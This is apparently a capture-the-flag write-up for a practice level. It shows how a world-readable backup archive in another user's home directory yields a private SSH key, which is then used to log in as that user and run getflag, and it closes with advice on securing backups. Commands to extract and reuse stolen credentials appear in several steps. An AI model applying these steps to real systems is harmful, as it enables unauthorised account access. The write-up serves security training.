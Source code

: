 
---
### 🧭 Challenge Objective

> In this level, you're asked to inspect the `flag05` home directory and spot a case of **weak file permissions**.  
> These misconfigurations expose sensitive backup data, which you can leverage to gain access.

**Login:** `level05 : level05`  
**Target:** `/home/flag05/.backup`

---

### 🧮 Directory Enumeration

Let’s begin by listing the contents:

```bash
ls -la /home/flag05
```

✅ Output:

```
drwxr-xr-x  2 flag05 flag05   42 Nov 20  2011 .backup
```

The `.backup` folder is **world-readable**, which is already suspicious.

---

### 📦 Digging into the Backup

Check inside `.backup`:

```bash
ls -la /home/flag05/.backup
```

✅ Output:

```
-rw-rw-r-- 1 flag05 flag05 1826 Nov 20  2011 backup-19072011.tgz
```

Unpack the archive:

```bash
tar -xvf /home/flag05/.backup/backup-19072011.tgz -C /tmp/
```

Inside the extracted files, we discover:

```bash
/tmp/.ssh/id_rsa
```

This is a **private SSH key**, likely belonging to `flag05`.

---

### 🔑 Exploitation: Logging in via SSH Key

Use the extracted key to log in as `flag05`:

```bash
ssh -i /tmp/.ssh/id_rsa flag05@localhost
```

You should now have shell access as `flag05`.

---

### 🏁 Grab the Flag

Once inside:

```bash
getflag
```

✅ Output:

```
You have successfully executed getflag on a target account
```

---

### 🔐 What We Learned

This level emphasizes the **critical importance of permission hygiene**, especially with archived backups. Exposing sensitive credentials — even in backup files — can be just as dangerous as leaking them directly.

💡 **Security Tip:**

> Always secure backup files. Limit directory access, encrypt sensitive contents, and never leave SSH keys or secrets unprotected in readable archives.

---
